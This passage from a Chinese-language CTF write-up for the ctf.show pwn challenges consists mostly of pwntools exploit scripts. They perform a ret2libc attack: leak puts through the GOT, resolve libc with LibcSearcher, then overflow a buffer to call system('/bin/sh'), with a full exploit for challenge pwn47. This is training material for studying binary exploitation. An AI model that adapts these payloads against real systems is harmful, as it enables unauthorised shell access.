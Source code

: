 ```python
io.sendlineafter(b'O.o?', payload1)
puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print("Puts_addr: ",hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)   # libc6_2.27-0ubuntu2_amd64

libc_base = puts_addr - libc.dump('puts')
system_add = libc_base + libc.dump('system')
bin_sh_add = libc_base + libc.dump('str_bin_sh')

# libc_base = puts_addr - libc.symbols['puts']
# system_add = libc_base + libc.symbols['system']
# bin_sh_add = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'a' * (offset+8) + p64(ret_add) + p64(pop_rdi) + p64(bin_sh_add) + p64(system_add)

io.sendlineafter(b'O.o?', payload2)

io.interactive()
```

64位，在32位的基础上补rdi补ret改offset改main函数地址就好了

## pwn47

根据32位的板子改

改完即为完整exp：

```python
from pwn import *
from LibcSearcher import *

io = remote('pwn.challenge.ctf.show',28169 )
# io = process("")
elf = ELF('./pwn47')
# libc= ELF('libc.so.6')

main_add =0x080486B9
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

print("Puts_got: ", hex(puts_got))
print("Puts_plt: ", hex(puts_plt))

offset =0x9C

payload1 = b'a' * (offset + 4) + p32(puts_plt) + p32(main_add) + p32(puts_got)
io.sendlineafter(b'time:', payload1)
puts_addr = u32(io.recvuntil(b'\xf7')[-4:])
print("Puts_addr: ", hex(puts_addr))

libc = LibcSearcher('puts', puts_addr)

libc_base = puts_addr - libc.dump('puts')
system_add = libc_base + libc.dump('system')
bin_sh_add = libc_base + libc.dump('str_bin_sh')

# libc_base = puts_addr - libc.symbols['puts']
# system_add = libc_base + libc.symbols['system']
# bin_sh_add = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'a' * (offset + 4) + p32(system_add) + p32(0) + p32(bin_sh_add)
io.sendlineafter(b'time:', payload2)
```